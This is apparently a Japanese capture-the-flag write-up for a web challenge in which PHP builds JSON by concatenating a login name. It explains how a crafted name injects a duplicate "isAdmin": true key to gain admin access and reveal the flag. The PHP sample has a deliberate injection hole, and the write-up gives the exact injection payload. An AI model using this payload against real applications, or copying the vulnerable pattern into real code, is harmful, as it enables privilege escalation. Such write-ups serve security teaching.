


# PIYOTASO

2年前にISCCTFで出題した[crackjwt](https://y0d3n.hatenablog.com/entry/2020/10/27/093256) のjwtじゃないバージョンです。  
今回も[ぴよたそ](https://hiyokoyarou.com/) の画像をお借りしています。



適当に名前を入力してログインすると、flagを閲覧する権限がないと言われてしまいます。


該当コードを見てみましょう。

```php
<?php
$status = json_decode('{"isAdmin": false, "name": "' . $_POST['name'] . '"}', true);
if ($status["isAdmin"] == false) {
    echo '<p>ようこそ ' . htmlspecialchars($status["name"]) . 'さん。<br>あなたにはflagを閲覧する権限はありません。</p>';
} else {
    echo '<p>ようこそ ' . htmlspecialchars($status["name"]) . 'さん。<br><strong>' . $_ENV["flag"] . '</strong></p>';
}
?>
```

`json_decode('{"isAdmin": false, "name": "' . $_POST['name'] . '"}', true);`というところがミソです。  
yodenと入力した際のjsonは以下のようになります。

```json
{"isAdmin": false, "name": "yoden"}
```

isAdminがfalseなため閲覧権限がなく、nyoronyoro.gifが返ってきます。  

この情報をヒントにするか迷ったのですが、**PHPのjson_decodeではdecode時にkeyが衝突したら一番最後の値が優先されます**。  
つまり以下のようなjsonを作ることができたら、json_decode時にisAdminがtrueになります。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true}
```

ログイン時の入力を工夫してみましょう。  
まずは`"`のみを入力した際はどうなるか考えてみます。

jsonは`{"isAdmin": false, "name": "yoden""}`のようになり、パースはエラーになります。



これを利用して`{"isAdmin": false, "name": "yoden", "isAdmin": true}`のようなjsonを作りたいところですが、 
`yoden", "isAdmin": true`のようにしてしまうと、実際に生成されるjsonは以下のようになり、またエラーになってしまいます。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true"}
```

最後の`"`が邪魔なので、もう一度`"name"`を挟むことで解決します。  
`yoden", "isAdmin": true, "name": "y0d3n`を入力することでjsonを以下のようにするとflagが手に入ります。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true, "name": "y0d3n"}
```


`flag{hiyoko_manju_tottemo_oisi}`
